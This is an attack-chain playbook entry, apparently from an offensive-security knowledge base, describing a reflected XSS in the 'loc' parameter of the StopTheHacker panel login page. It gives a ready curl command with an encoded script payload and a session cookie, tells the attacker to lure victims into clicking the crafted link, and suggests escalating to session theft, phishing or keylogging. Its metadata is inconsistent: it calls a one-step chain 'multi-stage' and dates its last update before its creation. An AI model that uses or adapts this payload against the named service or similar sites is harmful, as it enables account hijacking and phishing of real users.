

---
tags:
  - xss
  - reflected-xss
  - javascript-execution
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-xss-injection-stopthehacker]]'
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Inject-Reflected-XSS-Payload-into-Login-Endpoint]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in the
  StopTheHacker panel's login endpoint to execute arbitrary JavaScript in a
  victim's browser, enabling session theft or phishing.
skill_level: beginner
impact_level: high
id: 45192812-8d7c-4950-b824-d7cdb55c68b1
created_at: '2025-12-14T03:16:14.675Z'
updated_at: '2025-12-14T03:16:14.675Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS in StopTheHacker Login Endpoint for Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl or browser)

### Target Environment

- Web application: StopTheHacker panel
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Public internet access to panel.stopthehacker.com

### Initial Access Requirements

- No credentials required
- Victim must visit a crafted malicious link
- No prior access needed

## Detailed Attack Procedures

### Step 1: Inject XSS Payload
procedure: [[procedures/Inject-Reflected-XSS-Payload-into-Login-Endpoint]]

**Objective**: Deliver a malicious GET request to the /login/ endpoint with an XSS payload in the 'loc' parameter to trigger JavaScript execution in the victim's browser.

**Instructions**: Craft and send a GET request to https://panel.stopthehacker.com/login/ with the payload in the 'loc' parameter. Use [[commands/curl-xss-injection-stopthehacker]] to simulate the request:

```bash
curl -X GET "https://panel.stopthehacker.com/login/?loc=de%22%3E%3Cscript%3Eprompt(994787)%3C/script%3E" \
  -H "Referer: https://panel.stopthehacker.com" \
  -H "Cookie: sth_panel=9fj5MyELdr2SAJ3yNP5p%2C3" \
  -H "Host: panel.stopthehacker.com" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1500.63 Safari/537.36" \
  -v
```

In a real attack, entice the victim to click a link that leads to this URL, such as https://panel.stopthehacker.com/login/?loc=de%22%3E%3Cscript%3Eprompt(994787)%3C/script%3E.

**Expected Output**: The server reflects the payload unsanitized, executing the JavaScript (e.g., a prompt box with '994787' appears in the browser).

**Success Indicators**:
- JavaScript alert or prompt executes in the browser
- Page source shows reflected payload without encoding
- No server-side errors blocking the injection

## Attack Chain Summary

### Key Achievements

1. Successful injection and reflection of XSS payload in the login endpoint
2. Arbitrary JavaScript execution in victim browser context
3. Potential for session theft, phishing, or keylogging via further payload escalation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
